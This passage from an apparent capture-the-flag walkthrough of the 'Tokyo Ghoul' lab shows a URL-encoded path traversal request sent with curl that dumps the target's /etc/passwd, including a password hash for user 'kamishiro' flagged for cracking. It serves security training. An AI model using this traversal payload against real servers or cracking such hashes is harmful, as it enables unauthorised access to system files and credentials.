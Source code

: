 Next I tried to urlencode it and it worked and we can see the content of `/etc/passwd`. Now we know Rize's username:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Tokyo_Ghoul/files]
└─$ curl -s "http://$IP/d1r3c70ry_center/claim/index.php?view=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd"

[REDACTED]

<p>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
statd:x:110:65534::/var/lib/nfs:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
vagrant:x:1000:1000:vagrant,,,:/home/vagrant:/bin/bash
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
kamishiro:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:1001:1001:,,,:/home/kamishiro:/bin/bash  <--------
~~~

### What did you find something ? crack it

No answers needed.

### what is rize username?
